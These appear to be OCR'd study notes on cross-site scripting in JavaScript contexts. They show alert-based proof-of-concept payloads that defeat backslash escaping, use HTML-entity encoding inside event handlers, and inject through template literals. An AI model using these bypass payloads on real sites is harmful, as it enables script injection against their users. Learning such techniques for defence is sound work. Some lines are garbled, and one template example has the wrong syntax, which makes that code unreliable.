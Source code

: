 - Some applications attempt to prevent input from breaking out of the JavaScript string by escaping any single quote characters with a backslash
- backslash before a character tells the JavaScript parser that the character should be interpreted literally, and not as a special character such as a string terminator.
- In this situation, applications often make the mistake of failing to escape the backslash character itself. This means that an attacker can use their own backslash character to neutralize the backslash that is added by the application.

```
';alert(0)//   gets covers to \\';alert(0)//
we use
\\';alert(0)// which converted to \\\\';alert(0)//
here 1st '\\'bypass 2 nd '\\' from interpreting as special char

```

## making use of HTML Encoding

- when the XSS context is some existing javascript within quoted tag attribute, such as an event handler, it is possible to make use of `HTML Encoding` to work around some input filters.
- if sever-side application blocks or sanitize certain character that need for sucessfull XSS exploit, we bypass it using `HTML-Encoding` those characters.

```
<a href="#" onclick="... var input='controble data here';...">

```

if application blocks or escape `Quote` character we use this

```
&apos;-alert(document.domain)-&apos;

```

## XSS in Java Script Template literals

- javascript template literals are string literals that allow embedded javascript expressions.
- the embedded expression are evaluated and are normally concatenated into the surrounding text. template literals are encapsulated in backticks instead of normal quotation ,marks.
- `${...}syntax`
- example following script will print whole msg that includes user's name

```
document.getElementById('message').innerText=`Welcom, $(user.displayName).`;

```

to exploit this jS template literal

```
<script>
...
var input=`controllable data`;
...
<script>
<!-- we use payload like bellow to trigger XSS-->
${alert(document.domain)}

```

